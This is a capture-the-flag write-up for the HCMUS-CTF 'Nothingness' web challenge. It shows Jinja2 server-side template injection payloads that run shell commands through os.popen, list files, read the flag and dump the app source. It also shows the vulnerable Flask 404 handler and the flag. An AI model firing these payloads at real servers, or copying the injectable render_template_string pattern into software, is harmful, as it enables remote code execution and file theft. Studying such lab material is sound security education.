








## Nothingness

#### Solved by Fluoxetine

```
I just leaked this website from HCMUS-CTF, but seem like it's under construction

61.28.237.24 30103

authors: Em0n
```










```
{{x()._module.__builtins__['__import__']('os').popen('ls').read()}}
__pycache__ app.py requirements.txt

{{x()._module.__builtins__['__import__']('os').popen('ls /').read()}}
bin boot dev etc flag_HKOOS2lrdD home lib lib64 media mnt opt proc root run sbin source srv sys tmp usr var

{{ get_flashed_messages.__globals__.__builtins__.open("/flag_HKOOS2lrdD").read() }}
HCMUS-CTF{404_teMpl4t3_1njEctIon}

{{x()._module.__builtins__['__import__']('os').popen('base64 app.py>a').read()}}
{{ get_flashed_messages.__globals__.__builtins__.open("a").read() }}
ICAKZnJvbSBmbGFzayBpbXBvcnQgRmxhc2sKZnJvbSBmbGFzayBpbXBvcnQgcmVxdWVzdApmcm9tIGZsYXNrIGltcG9ydCByZW5kZXJfdGVtcGxhdGVfc3RyaW5nCgphcHAgPSBGbGFzayhfX25hbWVfXykKCkBhcHAuZXJyb3JoYW5kbGVyKDQwNCkKZGVmIGhlbGxvKGUpOgogICAgcmV0dXJuIHJlbmRlcl90ZW1wbGF0ZV9zdHJpbmcoZic8aDE+U29ycnkge3JlcXVlc3QucGF0aH0gaXMgdW5kZXIgY29uc3RydWN0aW9uLiBQbGVhc2UgdHJ5IGFnYWluIGxhdGVyPC9oMT4nKSwgNDA0CgppZiBfX25hbWVfXyA9PSAnX19tYWluX18nOgogICAgYXBwLnJ1bihwb3J0PTUwMDAp

{{x()._module.__builtins__['__import__']('os').popen('base64 requirements.txt>a').read()}}
{{ get_flashed_messages.__globals__.__builtins__.open("a").read() }}
Zmxhc2s=
```

`app.py`:

```py
from flask import Flask
from flask import request
from flask import render_template_string

app = Flask(__name__)

@app.errorhandler(404)
def hello(e):
    return render_template_string(f'<h1>Sorry {request.path} is under construction. Please try again later</h1>'), 404

if __name__ == '__main__':
    app.run(port=5000)
```

`requirements.txt`:

```
flask
```

**Flag:** `HCMUS-CTF{404_teMpl4t3_1njEctIon}`
